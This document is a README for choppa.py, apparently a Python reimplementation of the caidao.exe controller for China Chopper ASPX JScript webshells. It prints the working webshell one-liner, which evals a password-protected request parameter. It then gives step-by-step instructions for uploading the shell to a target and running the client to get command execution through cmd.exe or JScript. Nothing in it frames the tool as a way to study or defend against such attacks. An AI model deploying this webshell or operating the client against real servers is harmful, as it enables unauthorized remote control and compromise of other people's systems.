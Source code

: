 
# choppa.py

choppa.py is a python implementation of caidao.exe, which includes minimal implementations
of caidao.exe's features exclusively for ASPX Jscript variants of China Chopper webshells such as:

```js
<script language="JScript" runat="server">function Page_Load(){eval(Request["password"],"unsafe");}</script>
```

Emulated caidao.exe features include:
- Mode 1: Virtual terminal emulation with Jscript and `cmd.exe /c`
- Mode 2: Jscript execution

choppa.py is not fully featured, and does not include file upload/download or support
for other webshell types referenced in caidao.exe such as ASP and PHP. These features are subject 
to future implementations.

#########################
INSTRUCTIONS:
#########################
1. Change webshell password value

```js
<script language="JScript" runat="server">function Page_Load(){eval(Request["Nonqjbexznaoynzrfuvfgbbyf"],"unsafe");}</script>
```

2. Upload ASPX webshell on target
3. Modify URL to specify target server in choppa.py 
4. Execute choppa.py with chosen mode number `python3 choppa.py -p Nonqjbexznaoynzrfuvfgbbyf -m 1`

